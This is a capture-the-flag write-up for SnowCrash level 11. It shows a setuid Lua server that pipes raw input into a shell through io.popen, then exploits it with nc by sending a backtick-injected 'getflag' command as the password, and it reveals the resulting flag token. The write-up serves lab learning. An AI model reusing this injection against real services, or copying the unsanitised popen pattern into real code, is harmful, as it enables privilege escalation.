 # Level 11

## Vulnerability
Privilege escalation - code injection

## Context
```
level11@SnowCrash:~$ ls -l
-rwsr-sr-x 1 flag11 level11 668 Mar  5  2016 level11.lua
```

## Solution
Let's ```cat``` the file and see what we find. 
```
level11@SnowCrash:~$ cat level11.lua
#!/usr/bin/env lua
local socket = require("socket")
local server = assert(socket.bind("127.0.0.1", 5151))

function hash(pass)
  prog = io.popen("echo "..pass.." | sha1sum", "r")
  data = prog:read("*all")
  prog:close()

  data = string.sub(data, 1, 40)

  return data
end


while 1 do
  local client = server:accept()
  client:send("Password: ")
  client:settimeout(60)
  local l, err = client:receive()
  if not err then
      print("trying " .. l)
      local h = hash(l)

      if h ~= "f05d1d066fb246efe0c6f7d095f909a7a0cf34a0" then
          client:send("Erf nope..\n");
      else
          client:send("Gz you dumb*\n")
      end

  end

  client:close()
end
```
We can see this program waits for a connection with the server running on 127.0.0.1 (hostname) 5151 (port).<br/>
It will prompt for a password and pass anything we write to a hashing function.<br/>
Let's see if we can exploit that, by tricking it to run ```getflag``` in the place of the password. <br/>

We'll use ```nc``` to establish a TCP connection with remote server. 
```
level11@SnowCrash:~$ nc 127.0.0.1 5151
Password: `getflag` > /tmp/token
Erf nope..
level11@SnowCrash:~$ cat /tmp/token
Check flag.Here is your token : fa6v5ateaw21peobuub8ipe6s
```
